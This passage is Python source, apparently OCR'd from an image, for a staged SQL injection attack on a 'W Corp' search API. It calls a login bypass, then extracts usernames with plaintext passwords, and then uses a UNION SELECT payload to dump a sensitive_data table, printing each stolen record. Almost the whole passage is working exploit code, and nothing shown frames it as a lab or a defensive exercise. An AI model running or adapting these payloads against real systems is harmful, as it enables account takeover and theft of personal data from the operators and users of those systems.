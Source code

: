```python
    
    response = requests.post(f"{BASE_URL}/api/search", json=payload)
    data = response.json()
    
    if data.get('success'):
        print(f"✅ Extracted {len(data['results'])} user records:")
        for user in data['results']:
            print(f"  👤 {user['username']}:{user['password']} ({user['role']})")
        return data['results']
    else:
        print(f"❌ Extraction failed: {data}")
        return None

# Method 3: Extract Sensitive Data
def extract_sensitive_data():
    payload = {
        "query": "test' UNION SELECT id,user_id,data_type,data_value,created_at,'x','x' FROM sensitive_data-- "
    }
    
    response = requests.post(f"{BASE_URL}/api/search", json=payload)
    data = response.json()
    
    if data.get('success'):
        print(f"✅ Extracted sensitive data:")
        for record in data['results']:
            print(f"  🔐 User {record['user_id']}: {record['data_type']} = {record['data_value']}")
        return data['results']
    else:
        print(f"❌ Failed: {data}")
        return None

if __name__ == "__main__":
    print("🎯 W Corp SQL Injection Attack\n")
    
    print("1️⃣ Attempting authentication bypass...")
    token = bypass_login()
    print()
    
    print("2️⃣ Extracting user credentials...")
    users = extract_credentials()
    print()
    
    print("3️⃣ Extracting sensitive data...")
    sensitive = extract_sensitive_data()
    print()
    
    print("✅ Attack complete!")
```

---
